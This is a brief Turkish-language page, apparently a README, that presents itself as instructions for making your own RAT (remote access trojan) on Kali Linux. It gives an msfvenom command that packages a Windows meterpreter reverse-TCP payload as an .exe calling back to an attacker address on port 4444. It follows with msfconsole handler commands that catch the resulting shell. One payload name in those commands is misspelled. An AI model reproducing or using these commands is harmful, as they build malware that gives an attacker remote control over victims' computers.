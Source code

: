 ### Kali Linux RAT Kodları
Buradaki kodu Kali Linux terminaline yazdığınızda kendi RAT'ınızı yapabilirsiniz.

Bir terminal açın
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -f exe > dosyaadı.exe
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/revese_tcp
set LHOST makineipsi
set LPORT 4444
run
